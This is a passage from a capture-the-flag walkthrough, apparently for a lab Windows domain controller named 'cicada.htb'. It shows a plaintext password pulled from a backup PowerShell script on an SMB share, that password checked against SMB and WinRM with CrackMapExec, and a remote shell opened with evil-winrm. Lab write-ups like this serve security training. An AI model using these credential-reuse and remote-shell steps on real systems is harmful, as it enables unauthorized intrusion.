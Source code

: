 <br />

Inside this shared resource, we can see a `PowerShell` script named `"Backup_script.ps1"`.

We download it and list its contents:

<br />

```PowerShell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

<br />

Upon analyzing it, we discover additional credentials: `emily.oscars:Q!3@Lp#M6b*7t*Vt`.

<br />

### emily.oscars:

<br />

These new credentials work for both SMB and WinRM:

<br />

```bash
❯ cme smb cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
❯ cme winrm cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

<br />

At this point, we can use the well known tool `evil-winrm` to gain a shell in the system and retrieve the `user.txt` flag:


<br />

```bash
❯ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
cd *Evil-WinRM* PS C:\Users\emily.oscars.CICADA> cd Desktop
```
